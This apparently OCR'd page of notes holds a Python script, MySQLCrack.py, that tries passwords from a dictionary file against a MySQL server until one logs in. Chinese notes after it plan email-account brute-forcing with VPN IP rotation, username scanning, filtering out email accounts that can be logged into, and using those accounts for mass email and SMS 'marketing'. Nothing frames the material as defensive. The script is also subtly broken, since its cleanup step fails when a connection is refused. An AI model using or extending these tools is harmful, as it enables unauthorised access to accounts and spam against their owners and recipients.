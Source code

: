 ```python
#MySQLCrack.py
import pymysql
import codecs

class MySQLCrack(object):
    def __init__(self, ip, user):
        self.file=codecs.open("passwordDict.txt","rb","utf-8","ignore")
        self.ip=ip
        self.user=user
    def Crack(self, crackingview):
        while True:
            line=self.file.readline()
            resStr=self.StrCompare(line)
            crackingview.AddData(resStr)#Add to CrackingView
            #找到后退出
            if resStr.find("true")!=-1:
                break
            #搜完退出
            if not line:
                break
    def StrCompare(self, password):
        isOK=False
        try:
            db=pymysql.connect(self.ip,self.user,password)
        except pymysql.err.OperationalError:
            isOK=False
        else:
            isOK=True
        finally:
            db.close()
        #
        if isOK:
            return "password true:"+password
        else:
            return "password wrong:"+password
    def __del__(self):
        self.file.close()
```

- 邮箱工具爆破(根据邮箱扫密码),有可能需要用vpn换ip
- 扫描工具，根据密码扫用户名

营销工具，还可以加上发邮件，发短信

邮箱清洗工具(找出可以登录的)

用那些清洗出来的邮箱进行多线程，多进程，然后进行营销

异常用途:

- 密码破解
- 程序的稳定性

## Exception dealing(预案处理)
